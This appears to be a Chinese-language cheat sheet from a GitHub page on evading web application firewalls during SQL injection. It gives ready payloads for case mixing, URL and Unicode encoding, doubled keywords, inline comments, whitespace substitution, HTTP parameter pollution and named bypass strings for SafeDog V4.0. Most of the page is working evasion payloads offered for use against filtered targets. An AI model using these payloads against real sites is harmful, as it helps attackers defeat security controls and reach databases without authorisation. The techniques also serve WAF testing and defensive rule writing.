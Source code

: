 # 

# SQL注入—WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`

![image.png](https://pic.imgdb.cn/item/64c5f2481ddac507cc26529e.jpg)

## 关键词大小写绕过

有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用一点来进行绕过

```sql
union select ---> unIOn SeLEcT
```

## 编码绕过

针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等

```sql
union select 1,2,3# ---> union%0aselect 1\u002c2,3%23
```

## 双写绕过

部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，可以通过双写来进行绕过

```sql
UNIunionON

SELselectECT

anandd
```

## 换行(\N)绕过

```sql
select * from admin where username = \N union select 1,user() from admin
```

## 注释符内联注释绕过：

```sql
union selecte ---> /*!union*/ select
```

## 同义词替换

```
and ---> &&

or ---> ||

=(等于号)=<、>

空格 ---> %09、%0a、%0b、%0c、%0d、%20、%a0等

# %0a是换行，也可以替代空格
```

## HTTP参污染

对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个

```sql
?id=1&id=2&id=3

?id=1/**&id=-1%20union%20select%201,2,3%23*/
```

## 安全狗 V4.0绕过

```sql
order by绕过：	%20/*//--/*/  

联合绕过：		union /*!--+/*%0aselect/*!1,2,3*/ --+

from绕过： 	/*!06447%23%0afrom*/
```
